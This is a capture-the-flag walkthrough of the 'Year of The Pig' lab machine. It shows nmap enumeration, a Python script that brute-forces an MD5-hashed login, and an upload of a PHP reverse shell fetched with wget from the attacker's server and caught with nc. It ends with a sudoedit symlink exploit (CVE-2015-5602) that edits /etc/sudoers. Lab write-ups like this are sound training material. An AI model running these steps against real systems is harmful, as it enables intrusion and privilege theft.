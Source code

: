 ## ENUMERATION
Nmap :
```
nmap -sC -sV -p- 10.10.9.235  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:10 IST
Nmap scan report for 10.10.9.235
Host is up (0.057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's start with the webserver.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20131321.png)

Use gobuster for directory bruteforcing:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20132146.png)

This reveals the admin directory which yields us this as `/login.php`:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20132225.png)

# Web Login:
The page is sending an AJAX request to `/api/login` using JSON format for the user input. Also , the password value is MD5 hash value of the string.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20132929.png)

For wrong credentials the following message appears:<br>
`Remember that passwords should be a memorable word, followed by two numbers and a special character`<br>
Take a note of that.<br>
Let's attempt to bruteforce this login now.
We need a custom wordlist as ensured by the password policy. Scanning the page for 'memorable' words gives us this:
 ```
Marco
marco
plane
planes
airplane
airplanes
airforce
flying
Savoia
savoia
Macchi
macchi
Curtiss
curtiss
milan
Milan
mechanic
maintenance
Italian
italian
Agility
agility
```
You can use [CeWL](https://digi.ninja/projects/cewl.php) for this.<br>
Adding a custom rule to `/etc/john/john.conf`. This will fulfill the password policy required.
```
[List.Rules:yop]
Az"[0-9][0-9][!#$%&(),*=/?]"
```
But the passwords are MD5-Hashed first before being sent to the login. Use this python program to hash the passwords and use them to bruteforce the login:
```
#!/usr/bin/python3
import requests
import sys
import json
import hashlib

payload= {"username":sys.argv[2],"password":"test"}

i = 0
for line in sys.stdin:
    payload["password"] = hashlib.md5(line.rstrip().encode('utf-8')).hexdigest()
    r = requests.post(sys.argv[1]+"/api/login",data=json.dumps(payload))
    json_data = json.loads(r.content)
    i = i +1
    if i % 10 == 0:
        print(str(i),end="\r")
    if json_data["Response"] != "Error":
        print (line)
        break
```
 Got this from [auth.py](https://gist.github.com/j11b0/c5101a9d32be96ff73fa4a72c0705290#file-auth-py)<br>
 This takes a while. Thankfully the password doesn't seem to reset with every reboot.

 ![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20153418.png)

Going forward we see:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20153539.png)

Now this is a complete rabbit hole. The commands section only responds to some commands like `whoami`which tells us we are `www-data` and `id`.

## FOOTHOLD
SSH as marco using the same password and you get the first flag immediately.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20153840.png)

Looking in the `/var/www` directory to find some hints of what to do with the webserver we find that marco can edit any file here except `admin.db`.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20154125.png)

To read `admin.db` we need to be www-data. So, let’s use our edit access to upload the PentestMonkey PHP reverse shell (located by default on Kali at `/usr/share/webshells/php/php-reverse-shell.php`) — making sure to change the IP and port number. <br>Using wget:
```
root@kali:/usr/share/webshells/php# python3 -m http.server
marco@year-of-the-pig:/var/www/html/admin$ wget YOUR-IP:8000/php-reverse-shell.php
```
Start a listener with `nc -lvnp <chosen-port>` then activate the shell by going to `http://<machine-ip>/php-reverse-shell.php`
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20185358.png)

We can't read the databse in a non-interactive shell , so to upgrade use :<br>
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20190238.png)

We got the password hashes of user curtis.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20190410.png)

`su curtis` and you'll get the 2nd flag in his home directory.

## PRIVILEGE ESCALATION
Checking `sudo -l` we see that Curtis can execute sudoedit as sudo, against some files in /var/www/html.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20190838.png)

Checking ExploitDB for sudoedit exploit gives us [this](https://www.exploit-db.com/exploits/37710).<br>
Checking sudo version confirms we are to use the CVE-2015-5602 exploit.
```
curtis@year-of-the-pig:~$ sudo --version
Sudo version 1.8.13
Sudoers policy plugin version 1.8.13
Sudoers file grammar version 44
Sudoers I/O plugin version 1.8.13
```
In this version of sudo , sudoedit does not check the full path if a wildcard is used twice (e.g. `/html/*/*/config.php`), allowing a malicious user to replace the `config.php` real file with a symbolic link to a different location.<br>
Marco being part of the `web-developers` can create such a path.<br>
Now symlink this to `/etc/sudoers` file so we may give curtis sudo access. You can use this with the `/etc/passwd` file to add your own password.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20194036.png)

Back to Curtis : `sudoedit /var/www/html/dir1/dir2/config.php`
This did not work with sudo for some reason.<br>
Add curtis to the file :
```
## User Privilege Specification
##
root ALL=(ALL) ALL
curtis ALL=(ALL) ALL
## Uncomment to allow members of group wheel to execute any command
```
Now you can use su to elevate your privileges.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20194118.png)


